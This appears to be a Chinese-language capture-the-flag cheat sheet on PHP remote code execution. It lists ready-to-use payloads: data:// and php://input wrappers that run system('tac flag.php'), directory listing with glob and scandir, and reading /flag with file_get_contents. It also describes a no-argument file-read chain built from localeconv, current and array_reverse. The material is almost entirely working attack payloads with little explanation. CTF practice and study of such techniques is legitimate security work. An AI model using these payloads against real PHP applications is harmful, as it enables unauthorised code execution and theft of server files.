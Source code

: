 ```
	data://text/plain,<?php system('tac fla*');?>
	
	php://input post:<?php system('tac flag.php');?>

```
#黑盒-运行-RCE代码命令执行

代码在线运行平台测试

# 附录、无法连接时，指令
```
`查询内容`

a=print_r(glob("*"));
var_dump(glob("*"));

读取根目录
print_r(scandir("/"));
var_dump(scandir("/"));

`查看文件`
var_dump(file_get_contents('/flag'));
a=highlight_file("index.php");

find / -name flag*
```

# 无参数文件读取

localeconv()数组第一个值为点

读取数组第一项可以的函数有current()、pos() 、reset()
所以最终我们可以构造如下
```
print_r(scandir(current(localeconv())));

print_r(scandir(pos(localeconv())));

print_r(scandir(reset(localeconv())));

py

var_dump(file_get_contents(next(array_reverse(scandir(current(localeconv()))))));

scandir() 读取目录返回数组
array_reverse()翻转数组
next() 当前数组
```

#[Shell脚本—/dev/null 2>&1详解](https://www.cnblogs.com/tinywan/p/6025468.html )